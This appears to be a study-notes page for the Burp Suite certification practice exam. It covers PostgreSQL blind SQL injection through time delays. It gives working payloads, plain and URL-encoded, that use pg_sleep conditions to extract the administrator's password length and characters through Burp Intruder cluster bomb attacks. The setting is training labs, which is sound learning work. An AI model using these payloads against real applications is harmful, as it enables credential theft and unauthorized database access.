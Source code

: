 > Error based or Blind SQL injection vulnerabilities, allow SQL queries in an application to be used to extract data or login credentials from the database. SQLMAP is used to fast track the exploit and retrieve the sensitive information.

> _**Identify**_ SQLi, by adding a double (") or single quote (') to web parameters or tracking cookies, if this break the SQL syntax resulting in error message response, then positive SQL injection _**identified**_. If no error or conditional message observed test blind [Time delays](https://portswigger.net/web-security/sql-injection/cheat-sheet) payloads.

[SQL Injection cheat sheet examples](https://portswigger.net/web-security/sql-injection/cheat-sheet)

#### Blind Time Delay

> Blind SQL injection with time delays is tricky to _**identify**_, fuzzing involves educated guessing as OffSec also taught me in OSCP. The below payload will perform conditional case to delay the response by 10 seconds if positive SQL injection _**identified**_.

> Identify SQLi vulnerability. In [Burp Practice exam Stage 2](https://portswigger.net/web-security/certification/takepracticeexam/index.html) the advance search filters are vulnerable to `PostgreSQL`. I found `SQLMAP` tricky to identify and exploit the practice exam vulnerability in advance search. Manual exploit of the SQL injection time delay in [Practice Exam here](broken-reference).

```SQL
;SELECT CASE WHEN (1=1) THEN pg_sleep(7) ELSE pg_sleep(0) END--
```

> [URL encoded](https://www.urlencoder.org/) `PostgreSQL` payload.

```SQL
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--
```

> Determine how many characters are in the password of the administrator user. To do this, increment the number after `>1` conditional check.

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

> Using CLUSTER Bomb attack to re-run the attack for each permutation of the character positions in the password, and to determine character value.

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

> Using CLUSTER bomb attack type with two payload, first for the length of the password `1..20` and then second using characters `a..z` and numbers `0..9`. Add the **Response Received** column to the intruder attack results to sort by and observe the `10` seconds or more delay as positive response.

[PortSwigger Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Practice Exam PostgreSQL TimeDelay**

> In the Burp Practice exam stage 2 the SQL injection is escaped not using single quote `'` but using a semicolon `;` and then URL encoding it as `%3B`.
